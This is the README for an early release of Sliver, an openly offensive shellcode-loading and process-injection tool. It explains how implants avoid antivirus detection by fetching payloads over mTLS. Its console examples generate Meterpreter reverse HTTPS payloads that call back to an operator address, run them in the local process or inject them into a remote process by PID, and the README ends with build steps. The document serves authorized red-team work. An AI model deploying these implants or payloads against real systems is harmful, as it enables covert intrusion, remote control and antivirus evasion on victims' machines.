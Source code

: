 Sliver
======

![Sliver](/sliver/sliver.jpeg)

Sliver is a remote shellcode loading and injection service that uses end-to-end encryption (mTLS) for all network traffic. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver can load arbitrary shellcode but also integrates with MSFVenom to automatically generate, execute, and manage Meterpreter payloads. Sliver binaries have very low anti-virus detection as they do not contain any malicous code themselves and instead dynamically load it over the network.

Sliver can inject payloads into it's own process or optionally use remote thread injection to execute payloads in a remote processes to which your execution context has access.

```
[attacker] <-(mTLS)-> [sliver] -(code injection)-> [remote process]
```

### Setup

1. Install Metasploit Framework v5 or later
2. Download the latest [Sliver](https://github.com/BishopFox/sliver/releases) binary
3. ???
4. Shellz

### Local Thread Execution

Execute shellcode in the local process:

```
sliver (NURSING_BEETLE) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE
[*] Sucessfully sent payload
```

### Remote Thread Injection

Inject shellcode into remote processes:

```
sliver (NURSING_BEETLE) > inject -pid 3100 -lhost 172.16.20.1
 inject -pid 3100 -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE -> PID: 3100
[*] Sucessfully sent payload
```

Sliver also has a built-in `ps` command.

### Multi-player Mode

Sliver can also execute multiple payloads per connection. This can be helpful if your meterpreter session dies, or if you want to play with friends:

```
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.2
 msf -lhost 172.16.20.2
[*] Generating windows/amd64 -> 172.16.20.2:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
```

## Compile From Source

You'll want to compile from a MacOS or Linux machine, compiling from Windows should work but none of the scripts are designed to run on Windows (you can compile the Windows binaries from MacOS or Linux).

Requirements:
* Metasploit Framework v5 or later
* Go v1.11 or later
* Make, sed, tar, wget, zip

Build thin server (for developement)

```
$ ./deps.sh
$ ./go-assets.sh
$ make
```

Statically compile and bundle server with all dependencies and assets:

```
$ make static-macos
$ make static-linux
$ make static-windows
```

